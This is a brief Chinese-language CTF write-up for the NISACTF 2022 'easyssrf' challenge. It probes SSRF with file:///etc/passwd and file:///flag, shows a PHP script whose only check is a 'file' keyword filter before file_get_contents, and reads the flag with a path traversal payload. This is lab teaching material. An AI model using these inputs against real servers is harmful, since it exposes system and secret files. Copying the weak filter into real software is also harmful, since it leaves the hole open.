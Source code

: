 # [NISACTF 2022]easyssrf


# [NISACTF 2022]easyssrf

![[NISACTF 2022]easyssrf-1](https://pic.imgdb.cn/item/653bd706c458853aef4dcdd4.jpg)

题目已经告知利用 SSRF 漏洞，输入 file:///etc/passwd ，失败，提示换个路径

![[NISACTF 2022]easyssrf-2](https://pic.imgdb.cn/item/653bd789c458853aef526797.jpg)

输入 file:///flag ，得到提示 fl4g

![[NISACTF 2022]easyssrf-3](https://pic.imgdb.cn/item/653bd7bfc458853aef541b3c.jpg)

输入 file:///fl4g ，得到提示 ha1x1ux1u.php

![[NISACTF 2022]easyssrf-4](https://pic.imgdb.cn/item/653bd80bc458853aef56b33b.jpg)

访问 ha1x1ux1u.php

![[NISACTF 2022]easyssrf-5](https://pic.imgdb.cn/item/653bd831c458853aef57c5fa.jpg)

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

// 从GET请求参数中获取名为 "file" 的值
$file = $_GET["file"];

// 检查 "file" 参数中是否包含字符串 "file"
if (stristr($file, "file")) {
  die("你败了.");
}

// 试图读取文件的内容并将其输出
echo file_get_contents($file);
?>
```

payload：`?file=../../../flag`

![[NISACTF 2022]easyssrf-6](https://pic.imgdb.cn/item/653bd967c458853aef5e33fe.jpg)

> **无基础可看：**[SSRF漏洞原理攻击与防御(超详细总结)](https://blog.csdn.net/qq_43378996/article/details/124050308)
